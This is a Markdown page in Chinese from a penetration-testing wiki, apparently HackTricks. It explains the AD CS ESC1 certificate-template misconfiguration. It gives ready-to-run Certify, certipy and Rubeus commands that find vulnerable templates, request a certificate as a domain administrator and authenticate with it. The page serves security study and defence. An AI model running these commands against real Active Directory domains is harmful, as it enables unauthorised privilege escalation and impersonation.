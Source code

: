 # AD CS Domain Escalation

{{#include ../../../banners/hacktricks-training.md}}

**这是升级技术部分的总结：**

- [https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
- [https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7](https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7)
- [https://github.com/ly4k/Certipy](https://github.com/ly4k/Certipy)

## Misconfigured Certificate Templates - ESC1

### Explanation

### Misconfigured Certificate Templates - ESC1 Explained

- **企业CA授予低权限用户注册权。**
- **不需要经理批准。**
- **不需要授权人员的签名。**
- **证书模板上的安全描述符过于宽松，允许低权限用户获得注册权。**
- **证书模板被配置为定义促进身份验证的EKU：**
- 包含客户端身份验证（OID 1.3.6.1.5.5.7.3.2）、PKINIT客户端身份验证（1.3.6.1.5.2.3.4）、智能卡登录（OID 1.3.6.1.4.1.311.20.2.2）、任何目的（OID 2.5.29.37.0）或无EKU（SubCA）等扩展密钥使用（EKU）标识符。
- **模板允许请求者在证书签名请求（CSR）中包含subjectAltName：**
- 如果存在，Active Directory（AD）在证书中优先考虑subjectAltName（SAN）进行身份验证。这意味着通过在CSR中指定SAN，可以请求证书以冒充任何用户（例如，域管理员）。请求者是否可以指定SAN在证书模板的AD对象中通过`mspki-certificate-name-flag`属性指示。该属性是一个位掩码，`CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT`标志的存在允许请求者指定SAN。

> [!CAUTION]
> 上述配置允许低权限用户请求具有任何选择的SAN的证书，从而通过Kerberos或SChannel作为任何域主体进行身份验证。

此功能有时被启用以支持产品或部署服务的HTTPS或主机证书的即时生成，或由于缺乏理解。

需要注意的是，使用此选项创建证书会触发警告，而当复制现有证书模板（例如，启用了`CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT`的`WebServer`模板）并修改以包含身份验证OID时则不会。

### Abuse

要**查找易受攻击的证书模板**，您可以运行：
```bash
Certify.exe find /vulnerable
certipy find -username john@corp.local -password Passw0rd -dc-ip 172.16.126.128
```
要**利用此漏洞冒充管理员**，可以运行：
```bash
Certify.exe request /ca:dc.domain.local-DC-CA /template:VulnTemplate /altname:localadmin
certipy req -username john@corp.local -password Passw0rd! -target-ip ca.corp.local -ca 'corp-CA' -template 'ESC1' -upn 'administrator@corp.local'
```
然后您可以将生成的 **证书转换为 `.pfx`** 格式，并再次使用 **Rubeus 或 certipy** 进行 **身份验证**：
```bash
Rubeus.exe asktgt /user:localdomain /certificate:localadmin.pfx /password:password123! /ptt
certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'corp.local' -dc-ip 172.16.19.100
```
Windows二进制文件 "Certreq.exe" 和 "Certutil.exe" 可用于生成 PFX: https://gist.github.com/b4cktr4ck2/95a9b908e57460d9958e8238f85ef8ee
